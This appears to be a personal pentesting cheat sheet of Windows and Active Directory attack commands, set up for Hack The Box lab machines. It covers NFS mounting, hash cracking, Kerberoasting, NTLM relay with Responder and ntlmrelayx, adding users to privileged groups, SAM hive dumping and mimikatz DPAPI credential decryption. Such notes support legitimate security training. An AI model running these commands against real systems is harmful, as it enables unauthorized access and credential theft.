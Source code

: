 # Privesc
* https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/tree/master
# Nfs (RPC)

`sudo apt-get install rpcbind nfs-kernel-server

```
rpcinfo -p remote.htb
rpcinfo -n <port> -t <url> <program>
rpcinfo -n 2049 -t remote.htb 100003
```

Check folders to mount:
```
showmount -e remote.htb
```

Mount:
```
mount -t nfs [-o vers=2] <ip>:<remote_folder> <local_folder> -o nolock
```

As it was using Umbraco, you directly go and search for Umbraco credential files. After doing so and inspecting the `Umbraco.sdf`  file, you can observe that there is some sort of credentials of type adminadmin@domain.locala1s34o41d5nqwoidn128312h938. So using the hashlike and hashcat hashes reference webpage:
https://hashcat.net/wiki/doku.php?id=example_hashes

You can match yout hash and type `hashcat -h` find the mode (100) and go for some:
`hashcat -m 100 -a 0 admin_hash rockyou.txt` and you find that htb is so m\'focker that the hash is the example one and the pass is:
b8be16afba8c314ad33d812f22a04991b90e2aaa:baconandcheese

Some discovery could be helpful, so i will try all seclists' PHP discovery files:
 `find /home/lotape6/resources/hack/SecLists/ -name *php* | grep Discovery | xargs -I · gobuster dir -u http://remote.htb/ -w · 

Effectively, searching Umbraco admin panel is much easier and quicker:
remote.htb/umbraco

Search for umbraco version and it is vulnerable, so let's exploit it:


# Kerberos
## Enumerate
#impacket #kerberos #GetUserSPNS 
After having some credential in the active directory try:
```
python GetUserSPNs.py -request -dc-ip 10.0.0.1 DOMAIN/user:password -outputfile hash.txt

# For later decryption: 
hashcat -m 1000 -a 0 --force --show --username hash.txt wordlist
```

# WinRM
#evil-winrm #winrm #port-5895
Assuming you have some valid credentials:
```
# Connect to a host:
evil-winrm --ip {{ip}} --user {{user}} --password {{password}}

# Connect to a host, passing the password hash:
evil-winrm --ip {{ip}} --user {{user}} --hash {{nt_hash}}

# Download files from remote machine (once connected)
download file_path remote_path

```

# Users / Groups management
```
# Create user
net user <name> <pass> /add /domain

# Add user to group group name "Exchange... ...ions" user "mcflanagan"
net group "Exchange Windows Permissions" mcflanagan /add

# Add user to local group
net localgroup "Account Operators" mcflanagan /add


```


# NTLM Relay Attack
> [!NOTE] Check message-signing is disabled
> Run `nmap -p445 -sC -sV $(cat ip)` and check if message signing is disabled
* Info: https://securance.com/news/smb-signing/
* [Responder](https://github.com/lgandx/Responder)
* [NetExec](https://github.com/Pennyw0rth/NetExec)
* [Impacket-ntlmrelayx](https://github.com/fortra/impacket)
#ntlm-relay-attack #repetier #ntlmrelayx
```
#? Obtain a list of systems with SMB signing disabled
netexec smb <ip>/24 --gen-relay-list targets.txt

#Let's disable SMB and HTTP servers on Responder in order to be able to forward captured hash to ntlmrealyx
# Open responder conf and turn off the SMB and HTTP servers
# Check the iface you're communicating to host machine

./Responder.py -I tun0 -d -w -P
# 1
python3 ntlmrelayx.py -t <ip>
# 2 (Default port 1080 for socks)
python3 ntlmrelayx.py -socks -smb2support  -t <ip>

```
For "# 2"  check [this](https://www.vaadata.com/blog/understanding-ntlm-authentication-and-ntlm-relay-attacks/#identifying-vulnerable-smb-services) out.
# MSRPC
#port-135 #port-139

# SAM and SYSTEM
#sam 
## On windows
```
reg save hklm\sam C:\inetpub\ftproot\sam
reg save hklm\system C:\inetpub\ftproot\system
```
## Extract hashes from SAM and SYSTEM
#sam #samdump2 #sam2hash
```
samdump2 SYSTEM SAM
```

## Extracting SAM and SYSTEM from VHD files
#sam #vhd 
```
sudo apt install libguestfs-tools -y

sudo mkdir /mnt/bastion
sudo guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro -v /mnt/bastion

sudo su

cd /mnt/bastion
cd Windows/System32/config
- cp SAM SYSTEM /tmp


```


# SharpHound
[[Active Directory Cheatsheet#SharpHound (enumeration)]]


# Checking user permissions
#permisssions-check
```
whoami /priv
whoami /all
```

# Interesting folders
#windows-interesting-folders
```
%APPDATA%
Windows/System32/config


# Master key for stored credentials
%appdata%\Microsoft\Protect\<SID>\<masterkey>

# Credentials
dir /a:h C:\Users\<username>\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\<username>\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\<username>\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\<username>\AppData\Roaming\Microsoft\Credentials\
```


# Extracting Passwords (DPAPI)
#dpapi #windows-extraxt-passwords #mimikatz
https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++#extracting-dpapi-backup-keys-with-domain-admin
First check if you can find a masterkey over:
`%appdata%\Microsoft\Protect\<SID>\<masterkey>`

Also check if there is any credential stored:
`C:\Users\<username>\AppData\Local\Microsoft\Credentials\`
`C:\Users\<username>\AppData\Roaming\Microsoft\Credentials\`

Then try to decode the masterkey with mimikatz:
```
dpapi::masterkey /in:C:\Users\<user>\AppData\Roaming\Microsoft\Protect\<whatever>\<andever> /sid:<ssid> /password:<pass>
```
Should be cached:
```
dpapi::cache
```

Then you can try to decode the actual password from the stored credentials:
```
dpapi::cred /in:C:\path\to\the\credential
```
